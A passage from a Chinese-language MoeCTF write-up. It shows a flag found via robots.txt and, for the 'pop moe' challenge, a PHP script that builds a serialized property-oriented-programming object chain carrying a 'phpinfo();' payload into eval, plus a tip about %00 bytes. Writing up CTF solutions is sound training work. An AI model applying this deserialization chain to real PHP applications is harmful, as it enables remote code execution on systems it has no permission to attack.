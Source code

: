 登入界面呢？看源码没有，看 robots.txt 就好了：

> [!FLAG]
>
> moectf{l_dld_nOt_ExPect-y0U-tO-B3_sO-STr0Ng1e402}

### pop moe

类垫刀之路 06，这次是只能够使用 eval ，我们优先使用 `phpinfo();`

```php title="pop.php"
<?php

class class003
{
    public $mystr = "phpinfo();";
}

class class002
{
    private $sec;
    function __construct()
    {
        $this->sec = new class003();
    }
}

class class001
{
    public $pay10ad = "dangerous";
    public $a;

    function __construct()
    {
        $this->a = new class002();
    }
}
class class000
{
    private $pay10ad = 1;
    protected $what;

    function __construct()
    {
        $this->what = new class001();
    }
}
$obj0 = new class000();
$serializedString = serialize($obj0); // 序列化class000对象  
echo $serializedString;
```

同样需要添加 `%00` ，[进入 phpinfo 界面后搜 moectf](attachments/WEB-14.png)
